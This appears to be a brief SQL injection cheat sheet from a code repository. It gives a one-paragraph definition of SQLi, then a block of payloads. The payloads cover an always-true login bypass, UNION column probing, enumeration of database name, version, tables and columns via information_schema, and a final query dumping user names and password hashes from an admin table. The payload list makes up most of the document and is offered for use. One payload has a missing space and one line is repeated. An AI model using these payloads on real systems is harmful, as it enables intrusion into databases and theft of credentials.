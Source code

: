 #### SQL Injection Methodology
SQL (Structured Query Language) Injection, mostly referred to as SQLi, is an attack on a web application database server that causes malicious queries to be executed. SQL injection is a code injection technique used to attack data-driven applications, in which malicious SQL statements are inserted into an entry field for execution (e.g. to dump the database contents to the attacker).

* SELECT DATA  
```SELECT```
* RETRIEVE DATA FROM MULTIPLE TABLES   
```UNION```
* ADD DATA     
```INSERT```

```
' or1=1-- -

' UNION SELECT NULL,NULL,NULL,NULL-- -

' UNION SELECT 1,2,3,4-- -

123123' UNION SELECT NULL,NULL,NULL,NULL-- -

123123' UNION SELECT NULL,database(),NULL,NULL-- -

123123' UNION SELECT NULL,@@version,NULL,NULL-- -

123123' UNION SELECT NULL,table_name,NULL,NULL from information_schema.tables-- -

123123' UNION SELECT NULL,table_name,NULL,NULL from information_schema.tables-- -

123123' UNION SELECT NULL,table_name,table_schema,NULL from information_schema.tables-- -

123123' UNION SELECT NULL,column_name,table_schema,NULL from information_schema.columns-- -

123123' UNION SELECT NULL,column_name,table_name,NULL from information_schema.columns-- -

123123' UNION SELECT NULL,user,hash,NULL from admin-- -
```
